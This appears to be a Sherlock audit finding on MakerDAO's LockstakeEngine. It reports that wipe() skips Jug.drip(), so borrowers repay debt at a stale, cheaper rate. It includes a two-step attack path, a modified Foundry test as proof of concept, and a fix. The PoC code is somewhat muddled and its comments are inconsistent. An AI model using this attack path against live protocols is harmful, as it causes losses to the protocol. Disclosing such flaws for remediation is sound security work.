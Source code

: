 Itchy Slate Boa

Medium

# wipe function will use stale rate when ilk in the engine is not updated through Jug.drip()

### Summary

Missing drip call to the jug, will result of users paying their debt using stale rate.
`https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/lockstake/src/LockstakeEngine.sol#L391`, which is cheaper than new rate. which means loss for the protocol.

### Root Cause

missing drip call to the jug when calling wipe function in the LockstakeEngine.sol

### Internal pre-conditions

anyone can call wipe

### External pre-conditions

ilk in the lockstakeengine not being called for some period of times

### Attack Path

1. get a loan by calling draw()
2. call wipe()

### Impact

pay the debt using stale rate, which doesnt reflect the actual rate of the ilk

### PoC


modified the test for testDrawWipe()
```Solidity
    function testDrawWipe() public {
        deal(address(mkr), address(this), 100_000 * 10**18, true);
        address urn = engine.open(0);
        mkr.approve(address(engine), 100_000 * 10**18);
        engine.lock(urn, 100_000 * 10**18, 5);
        assertEq(_art(ilk, urn), 0);
        vm.expectEmit(true, true, true, true);
        emit Draw(urn, address(this), 50 * 10**18);
        engine.draw(urn, address(this), 50 * 10**18);
        assertEq(_art(ilk, urn), 50 * 10**18);
        assertEq(_rate(ilk), 10**27);
        assertEq(nst.balanceOf(address(this)), 50 * 10**18);
        vm.warp(block.timestamp + 1);
        vm.expectEmit(true, true, true, true);
        emit Draw(urn, address(this), 50 * 10**18);
        engine.draw(urn, address(this), 50 * 10**18);
        uint256 art = _art(ilk, urn);
        uint256 expectedArt = 50 * 10**18 + _divup(50 * 10**18 * 100000000, 100000001);
        assertEq(art, expectedArt);
        uint256 rate = _rate(ilk);
        assertEq(rate, 100000001 * 10**27 / 100000000);
        assertEq(nst.balanceOf(address(this)), 100 * 10**18);
        assertGt(art * rate, 100.0000005 * 10**45);
        assertLt(art * rate, 100.0000006 * 10**45);
        vm.expectRevert("Nst/insufficient-balance");
        engine.wipe(urn, 100.0000006 * 10**18);
        address anyone = address(1221121);
        deal(address(nst), anyone, 100.0000006 * 10**18, true);
        assertEq(nst.balanceOf(anyone), 100.0000006 * 10**18);
        vm.prank(anyone); nst.approve(address(engine), 100.0000006 * 10**18);
        vm.expectRevert();
        vm.prank(anyone); engine.wipe(urn, 100.0000006 * 10**18); // It will try to wipe more art than existing, then reverts
        vm.expectEmit(true, true, true, true);
        emit Wipe(urn, 100.0000005 * 10**18);

        console.log("non revert wipe");
        vm.prank(anyone);
        vm.warp(block.timestamp + 3 days); //move forward 3 days
        IJug(0x19c0976f590D67707E62397C87829d896Dc0f1F1).drip(ilk); //comment this to make the test run like the original one
        engine.wipe(urn, 100.0000005 * 10**18);
        console.log(nst.balanceOf(anyone));
        vm.warp(block.timestamp - 3 days); // return to the original block.timestamp
        //without drip
        // non revert wipe
        // 100000000000



        assertEq(nst.balanceOf(anyone), 0.0000001 * 10**18);
        assertEq(_art(ilk, urn), 1); // Dust which is impossible to wipe via this regular function
        emit Wipe(urn, _divup(rate, RAY));
        vm.prank(anyone); assertEq(engine.wipeAll(urn), _divup(rate, RAY));
        assertEq(_art(ilk, urn), 0);
        assertEq(nst.balanceOf(anyone), 0.0000001 * 10**18 - _divup(rate, RAY));
        address other = address(123);
        assertEq(nst.balanceOf(other), 0);
        emit Draw(urn, other, 50 * 10**18);
        engine.draw(urn, other, 50 * 10**18);
        assertEq(nst.balanceOf(other), 50 * 10**18);
        // Check overflows
        stdstore.target(address(dss.vat)).sig("ilks(bytes32)").with_key(ilk).depth(1).checked_write(1);
        assertEq(_rate(ilk), 1);
        vm.expectRevert("LockstakeEngine/overflow");
        engine.draw(urn, address(this), uint256(type(int256).max) / RAY + 1);
        stdstore.target(address(dss.vat)).sig("dai(address)").with_key(address(nstJoin)).depth(0).checked_write(uint256(type(int256).max) + RAY);
        deal(address(nst), address(this), uint256(type(int256).max) / RAY + 1, true);
        nst.approve(address(engine), uint256(type(int256).max) / RAY + 1);
        vm.expectRevert("LockstakeEngine/overflow");
        engine.wipe(urn, uint256(type(int256).max) / RAY + 1);
        stdstore.target(address(dss.vat)).sig("urns(bytes32,address)").with_key(ilk).with_key(urn).depth(1).checked_write(uint256(type(int256).max) + 1);
        assertEq(_art(ilk, urn), uint256(type(int256).max) + 1);
        vm.expectRevert("LockstakeEngine/overflow");
        engine.wipeAll(urn);
    }
```

### Mitigation

add jug.drip(ilk) like in the draw(), to use fresh rate when paying the debt.